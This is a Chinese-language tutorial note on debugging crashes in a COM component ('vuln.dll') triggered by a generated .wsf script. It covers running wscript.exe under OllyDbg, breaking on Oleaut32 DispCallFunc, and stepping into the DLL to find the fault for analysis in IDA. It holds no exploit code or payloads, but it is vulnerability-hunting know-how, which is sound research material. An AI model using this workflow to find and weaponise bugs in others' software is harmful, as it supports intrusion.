-   
-   


**生成脚本**

-   
-   可以看出，生成的脚本需要wscript.exe运行，微软自己的脚本运行工具
-   生成的脚本路径
-   


产生错误的原因？

-   因为调用了system32的wscript.exe 他只能运行64位程序。所以需要去systemwow64使用wscript的脚本


如何调试？


先用OD打开加载脚本的程序   wscript.exe


-   将wscript.exe使用OD调试，填入参数，参数是刚才生成的.wsf后缀的脚本。

​          

​        参数是.wsf脚本文件的完整路径

​    现在我们调的是  wscript.exe 但实际我们想调的是   vuln.dll  因此不能用单步跟

-   在Oleaut32.DispcallFunc下断点。
-   断下来后查找第一个call寄存器的地方。(寄存器不确定可能是 eax,ecx,edx,跟系统版本有关)
-   
-   这个地方就是调com接口的地方, F7 这样就进入该DLL的模块了。
-   
-   这样就可以调试看是哪出问题了,找到地址后就可以到 IDA 里面去看了


注意：

-   不用单步，如果单步的话将会花费很久的时间。
-   为什么？

-   -   因为脚本首先分析com，对com建立语法树等信息，为了遍历接口，所以脚本开始的代码对于我们来说没什么用


-   如何定位异常地址呢？

-   -   寻找第一个call 寄存器的地方。这是从xp到现在的经验，但是说不定什么时候就不灵敏了。


# 

### 